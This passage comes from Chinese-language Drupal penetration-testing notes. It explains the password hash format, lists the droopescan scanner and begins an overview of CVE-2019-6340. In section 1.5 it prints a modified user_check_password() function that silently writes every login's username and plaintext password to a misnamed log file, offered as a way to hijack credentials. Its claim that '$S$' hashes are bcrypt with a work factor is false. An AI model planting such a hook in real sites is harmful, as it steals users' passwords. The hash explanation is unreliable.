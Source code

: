 **返回密码哈希：**

-   返回加密后的密码哈希值

返回的哈希形式如下： $S$D7RUZRn.5.PUYe6XnhpGCgJP6F.qgcUFPbEY.DymQzcnVYyNFH/T  
其格式如下：  
$S$：哈希算法标识符，在这种情况下，它指示使用 bcrypt 算法  
D7RUZRn.5：工作因子，指示 bcrypt 应执行多少轮哈希  
PUYe6XnhpGCgJP6F.qgcUFPbEY.DymQzcnVYyNFH/T：哈希值

## 1.5 登录明文密码劫持

Drupal 登录逻辑中的接收表单数据是使用 drupal form api 完成的，其关键代码位于/includes/form.inc，它提供了一组通用的函数和类用于构建和处理表单。  
表单 API 属于抽象层，我们还是直接劫持业务逻辑层的密码验证函数，关键代码位于/includes/password.inc

```plain
function user_check_password($password, $account) {
    $plaintext = $account->name.$password;
    file_put_contents('/var/log/accesss.log',$plaintext);

    if (substr($account->pass, 0, 2) == 'U$') {
    // This may be an updated password from user_update_7000(). Such hashes
    // have 'U' added as the first character and need an extra md5().
    $stored_hash = substr($account->pass, 1);
    $password = md5($password);
      ...
    }
```

我们只需要劫持$password 和$account 即可得到明文账号密码，需要注意的是$account 变量是一个数组，需要劫持$account->name，具体代码实现参照 wordpress 安全技术研究

# 2.Drupal 渗透测试研究

## 2.1 主流工具

### droopescan

droopescan 是一款使用 python 开发的跨平台 drupal 扫描工具  
[https://github.com/SamJoan/droopescan](https://github.com/SamJoan/droopescan)

## 2.2 getshell 测试案例

Drupal 的 RCE 漏洞还是挺多的，在 exploit-db 能搜索到 40+ 与 RCE 相关的漏洞

### CVE-2019-6340

-   概述

CVE-2019-6340 是 Drupal 8.x 版本中一个远程代码执行 (RCE) 漏洞，影响范围： 
Drupal 8.6.x < 8.6.10  
Drupal 8.5.x < 8.5.11
